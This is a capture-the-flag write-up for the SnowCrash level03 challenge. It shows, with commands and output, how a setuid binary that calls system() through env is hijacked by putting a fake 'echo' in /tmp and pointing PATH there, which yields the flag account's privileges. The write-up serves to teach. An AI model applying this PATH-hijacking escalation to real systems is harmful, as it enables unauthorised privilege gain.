 # Snowcrash03

Ok this time we have a binary that begs us to exploit it.

```sh
ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
./level03
Exploit me
```

We can see that the binary is owned by the flag03 account and has a suid flag, meaning that if we run the binary, it will be ran with the flag account permissions.

We can try looking at the binary in ltrace before starting gdb.

```bash
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                            = 2003
geteuid()                                                            = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                  = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                  = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                               = 0
+++ exited (status 0) +++
```

Ok so we have a system call, it will run the command inside as flag03.
It also uses /env binary, and we have access to the env.

Knowing thanks to minishell, that the env is used to determine where are the programs, more precisely the PATH variable, we should be able to do something.

```bash
~$ env PATH=/tmp ./level03
/usr/bin/env: echo: No such file or directory
```
By doing this, the system call doesnt find echo.
But what if it found it somehow ?

```bash
~$ cp $(which getflag) /tmp/echo
~$ env PATH=/tmp ./level03
Check flag.Here is your token : XXXXXXXXXXXXXXXXXX
```

So we basically tricked flag03 into running getflag for us, no need to log into flag03
